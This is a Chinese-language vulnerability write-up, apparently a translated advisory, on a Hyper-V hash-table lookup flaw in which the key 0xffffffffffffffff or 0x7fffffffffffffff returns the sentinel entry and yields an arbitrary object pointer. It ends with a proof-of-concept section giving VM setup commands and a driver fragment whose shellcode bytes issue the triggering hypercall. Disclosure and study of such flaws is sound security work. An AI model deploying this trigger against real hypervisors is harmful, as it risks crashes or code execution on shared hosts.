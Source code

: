 该函数遍历给定的表，从`head`开始，直到找到大于等于`key`参数的key。参数`pPrevious`和`pCurrent`被设为最后访问的表项的地址。如果找到了key，返回`true`，否则返回`false`。

进行查找的代码会期望遍历函数在key未找到时返回`false`，但是如果我们查找的是末尾表项的key（-1）的话，因为-1的二进制位全为1，所以与1或的操作无法保护它，函数将会返回`true`，而`pCurrent`则指向末尾表项。

只需搜索key`0xffffffffffffffff`就可以触发这个问题，碰撞的key`0x7fffffffffffffff`也会产生此行为。

如上所述，返回的表项类似于`LIST_ENTRY`字段，所以要计算所对应的对象的基地址，就需要减去字段的偏移：

```
CONTAINING_RECORD(resulting_base, struct obj_type, entry_field)
```

因为返回的地址是末尾表项的地址，对其应用`CONTAINING_RECORD`将会返回哈希表对象内部（或其下方）的任意地址。调用者会认为这是所期望的对象类型，而接着对这个任意指针进行操作。



## 0x02 影响

该漏洞的影响范围取决于影响着最终的偏移地址的一些条件，漏洞可以潜在导致任意代码执行。

这些条件例如：
- 调用者的对象大小和entry字段的偏移
- 发行版/平台间结构体布局的差异


## 0x03 PoC

以下PoC可触发漏洞，使用了`HvFlushGuestPhysicalAddressSpace` hypercall，我们认为这是最简单的触发路径。

需要在Windows客户机中加载驱动，且客户机开启嵌套虚拟化，禁用Hyper-V。

主机运行：

```
Set-VMProcessor -VMName poc_vm -ExposeVirtualizationExtensions $true
```

客户机运行（需要重启）：

```
bcdedit /set hypervisorlaunchtype off
```

```
#include &lt;intrin.h&gt;
#include &lt;intrin.h&gt;
#include &lt;ntddk.h&gt;
#include &lt;wdf.h&gt;
#include &lt;initguid.h&gt;

EXTERN_C_START
DRIVER_INITIALIZE DriverEntry;
EXTERN_C_END

#ifdef ALLOC_PRAGMA
#pragma alloc_text (INIT, DriverEntry)
#endif

#pragma code_seg(push, r1, ".text")
__declspec(allocate(".text")) BYTE trigger[] =
`{`
    0x48, 0x89, 0xC8,             //  mov rax, rcx               hypercall page
    0xB9, 0xAF, 0x00, 0x01, 0x00, //  mov ecx, 0x100af
    0x48, 0xBA, 0xFF, 0xFF, 0xFF, //           HvFlushGuestPhysicalAddressSpace
    0xFF, 0xFF, 0xFF, 0xFF, 0x7F, //  mov rdx,0x7fffffffffffffff            GPA
    0x4D, 0x31, 0xC0,             //  xor r8,r8                           flags
    0xFF, 0xD0                    //  call rax
`}`;
#pragma code_seg(pop, r1)
```